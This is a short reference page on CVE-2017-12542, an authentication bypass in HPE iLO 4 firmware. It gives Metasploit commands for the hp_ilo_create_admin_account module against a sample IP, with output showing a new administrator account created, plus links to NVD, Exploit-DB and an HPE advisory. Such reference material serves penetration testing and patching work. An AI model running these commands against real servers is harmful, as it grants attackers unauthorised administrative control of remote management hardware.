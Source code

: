 ```yaml
---
title : "CVE-2017-12542"
# pre : ' '
description : "A authentication bypass and execution of code vulnerability in HPE Integrated Lights-out 4 (iLO 4) version prior to 2.53."
date : 2020-03-11T12:41:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : [""]
---
```


## CVE-2017-12542 - HP iLO 4 1.00-2.50 Authentication Bypass Administrator Account Creation

## Usage

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
```

## Examples

```plain
msf5 > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set RHOSTS 10.10.10.16
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > set USERNAME MyAdmin
msf5 auxiliary(admin/hp/hp_ilo_create_admin_account) > run
[*] Running module against 10.10.10.16

[*] Trying to create account MyAdmin...
[+] Account MyAdmin/A7ay2i110sSa created successfully.
[*] Auxiliary module execution completed[/code]
```

## URL List

- [nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2017-12542)
- [Exploit-db.com](https://www.exploit-db.com/exploits/44005)
- [Support.hpe.com](https://support.hpe.com/hpesc/public/docDisplay?docId=emr_na-hpesbhf03769en_us)
